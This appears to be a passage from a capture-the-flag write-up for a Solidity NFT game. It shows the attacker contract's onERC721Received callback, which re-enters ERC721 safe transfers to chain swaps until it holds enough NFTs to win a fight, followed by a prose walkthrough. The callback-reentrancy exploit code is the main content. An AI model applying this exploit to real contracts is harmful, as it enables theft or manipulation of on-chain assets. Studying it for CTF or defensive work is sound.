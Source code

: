 ```solidity

        // Let user's NFTs put up for sale.
        u1.putUpForSale();
        u2.putUpForSale();

        // Start attack.
        u1.attack(0, 8);
    }

    // This function is being called during a swap we initiated with
    // a `<User>.attack()` call.
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        uint balance = game.balanceOf(address(this));

        // During the fight we will lose 3 NFTs. In order to still have a
        // higher balance than the current flagHolder, we need 7 NFTs.

        if (balance == 4) {
            // Continue with attack.
            u1.attack(1, 6);
        } else if (balance == 5) {
            // Continue with attack.
            u1.attack(2, 7);
        } else if (balance == 6) {
            // Continue with attack.
            u2.attack(0, 9);
        } else {
            // Initiate fight...
            game.fight();
            // ...and make sure we won.
            require(game.flagHolder() == address(this));
        }

        // Afterwards return the correct function selector to make OZ's
        // `_safeTransfer()` function pass.
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

The function `captureTheFlag()` initiates the attack. It marks their own _Mon_
NFTs as `upForSale` and sets up the two `User` contracts.
Lastly, it starts the attack by starting a swap with a user’s wallet and the
attacker’s one.

The attacker contract will then be called back via the `onERC721Received/4`
function, in which a next swap is initiated as long as the Mon NFT balance is
less than seven.

If the _Mon_ NFT balance is sufficient, the `Gameefight()` function is called.

To make OZ’s `_safeTransfer/4` function pass after we won the game (remember,
all the NFT swaps are not yet fully executed), we return the expected function
selector.
